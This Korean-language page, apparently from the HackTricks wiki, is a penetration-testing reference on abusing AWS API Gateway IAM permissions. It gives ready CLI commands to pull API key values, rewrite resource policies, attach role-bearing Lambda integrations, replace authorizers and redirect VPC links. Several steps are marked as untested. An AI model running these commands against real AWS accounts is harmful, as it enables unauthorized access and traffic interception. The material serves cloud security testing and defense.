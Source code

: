 # AWS - Apigateway Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apigateway

자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### `apigateway:POST`

이 권한을 사용하면 구성된 API의 API 키를 생성할 수 있습니다(지역별).
```bash
aws --region <region> apigateway create-api-key
```
**잠재적 영향:** 이 기술로 권한 상승을 할 수는 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:GET`

이 권한으로 구성된 API의 생성된 API 키를 가져올 수 있습니다(지역별).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만 민감한 정보에 접근할 수 있습니다.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

이 권한을 사용하면 API의 리소스 정책을 수정하여 자신에게 호출할 수 있는 권한을 부여하고 API 게이트웨이가 가질 수 있는 잠재적 접근을 악용할 수 있습니다(예: 취약한 람다 호출).
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
**잠재적 영향:** 일반적으로 이 기술로 직접적으로 권한 상승을 할 수는 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> 테스트 필요

`apigateway:PutIntegration`, `apigateway:CreateDeployment`, 및 `iam:PassRole` 권한을 가진 공격자는 **IAM 역할이 연결된 Lambda 함수로 기존 API Gateway REST API에 새로운 통합을 추가할 수 있습니다**. 그런 다음 공격자는 **Lambda 함수를 트리거하여 임의의 코드를 실행하고 IAM 역할과 관련된 리소스에 접근할 수 있습니다**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: Lambda 함수의 IAM 역할과 관련된 리소스에 대한 접근.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!NOTE]
> 테스트 필요

`apigateway:UpdateAuthorizer` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 인증자를 수정**하여 보안 검사를 우회하거나 API 요청이 이루어질 때 임의의 코드를 실행할 수 있습니다.
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: 보안 검사를 우회하고, API 리소스에 대한 무단 접근.

### `apigateway:UpdateVpcLink`

> [!NOTE]
> 테스트 필요

`apigateway:UpdateVpcLink` 권한을 가진 공격자는 **기존 VPC 링크를 수정하여 다른 네트워크 로드 밸런서를 가리키게 할 수 있으며, 이는 개인 API 트래픽을 무단 또는 악의적인 리소스로 리디렉션할 수 있습니다**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**잠재적 영향**: 비공식 API 리소스에 대한 무단 접근, API 트래픽의 가로채기 또는 중단.

{{#include ../../../banners/hacktricks-training.md}}
